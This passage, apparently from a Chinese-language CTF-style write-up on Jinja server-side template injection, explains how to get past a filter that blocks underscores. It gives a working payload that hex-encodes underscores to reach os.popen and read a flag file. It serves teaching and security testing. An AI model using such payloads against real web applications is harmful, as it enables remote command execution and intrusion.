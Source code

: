 ![[‘\‘’, ‘“‘] 2](./images/ssti8.png)

-----

## Level 6 - 过滤下划线 `_` (['\_'])

过滤了下划线 `_` 时，可以使用编码或 `attr()` 过滤器配合 `request` 对象来绕过。

1.  **十六进制编码:** 在字符串中使用 `\x5f` 来代替 `_`。Python 在执行时会自动转义。

    ```jinja
    {{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][-1]["\x5f\x5fsubclasses\x5f\x5f"]()[258]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"].popen("cat flag").read()}}
    ```

    *执行时 `"\x5f\x5fclass\x5f\x5f"` 会变成 `__class__`。*
